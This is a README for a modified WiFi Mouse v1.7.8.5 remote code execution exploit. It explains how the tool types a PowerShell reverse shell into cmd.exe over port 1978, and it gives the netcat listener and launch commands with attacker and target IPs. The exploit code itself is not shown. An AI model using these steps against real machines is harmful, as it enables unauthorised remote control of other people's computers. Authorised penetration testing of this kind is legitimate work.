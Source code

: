 # WiFi Mouse RCE - Direct Reverse Shell

A modified exploit for WiFi Mouse (v1.7.8.5) that delivers a PowerShell reverse shell directly to the target without requiring payload upload or staging.

## Overview

This exploit leverages an unauthenticated Remote Code Execution vulnerability in WiFi Mouse application by sending specially crafted packets to port 1978. Unlike the original exploit that required payload staging, this version injects a PowerShell reverse shell one-liner directly through the application's command interface.

## Requirements

- Python 3.x
- Target running WiFi Mouse v1.7.8.5 (or potentially other vulnerable versions)
- Network connectivity to target's port 1978

## Usage

1. Set up a netcat listener on your attacking machine:
```bash
nc -lvnp <port>
```

2. Run the exploit:
```bash
python3 exploit.py <target-ip> <attacker-ip> <attacker-port>
```

### Example
```bash
# Setup listener
nc -lvnp 4444

# Execute exploit
python3 exploit.py 192.168.1.100 192.168.1.200 4444
```

## Technical Details

The exploit works by:
1. Opening a connection to the target's WiFi Mouse service on port 1978
2. Sending a command to open cmd.exe
3. Typing a PowerShell reverse shell one-liner character by character
4. Executing the command with an Enter keypress

The PowerShell reverse shell uses a standard TCP client to establish a connection back to the attacker, providing command execution with the privileges of the WiFi Mouse application.

## Modifications from Original

This script is modified from the original WiFi Mouse RCE exploit (EDB-ID: 50972) with the following changes:
- Removed file upload functionality
- Implemented direct PowerShell reverse shell injection
- Simplified usage with straightforward command-line arguments

## Disclaimer

This tool is provided for educational and professional security testing purposes only. Use only against systems you own or have explicit permission to test. Unauthorized use is illegal and unethical.

## Credits

- Original exploit by Alejandro Fanjul
- Modified for direct reverse shell by Illini Tech Services/Jeremy Ison

## License

This project is licensed under the MIT License.
